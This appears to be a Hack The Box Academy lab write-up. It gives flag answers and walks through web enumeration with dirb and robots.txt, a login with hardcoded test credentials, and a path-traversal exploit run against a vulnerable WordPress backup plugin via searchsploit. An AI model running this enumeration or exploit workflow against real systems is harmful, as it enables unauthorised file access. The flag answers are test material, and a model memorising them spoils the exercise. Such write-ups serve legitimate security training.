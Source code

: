 **Results**: dceece590f3284c3866305eb2473d099


#### [Web Enumeration](https://academy.hackthebox.com/module/77/section/728)

**Try running some of the web enumeration techniques you learned in this section on the server above, and use the info you get to get the flag.**

```
dirb http://94.237.55.246:55655/    
# From enumeration you can get to dirb http://94.237.55.246:55655/robots.txt
```

Go to http://94.237.55.246:55655/robots.txt and you will notice http://94.237.55.246:55655/admin-login-page.php

Visit it and, hardcoded in the site you will see:

```
                <!-- TODO: remove test credentials admin:password123 -->

```

Login into the app.

**Results**: HTB{w3b_3num3r4710n_r3v34l5_53cr375}There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:


#### [Public Exploits](https://academy.hackthebox.com/module/77/section/843)

Access to the web app at http://ip:36883

The title of the wordpress post is "Simple Backup Plugin 2.7.10", which is a well-known vulnerable plugin. 

```
searchsploit Simple Backup Plugin 2.7.10
```


```
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Simple Backup Plugin Python Exploit 2.7.10 - Path Traversa | php/webapps/51937.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


```
sudo cp /usr/share/exploitdb/exploits/php/webapps/51937.txt .
mv 51937.txt 51937.py
chmod +x 51937.py
python ./51937.py http://83.136.255.162:36883/ "/flag.txt" 4
#  target_url = sys.argv[1]
#  file_name = sys.argv[2]
#  depth = int(sys.argv[3])
```
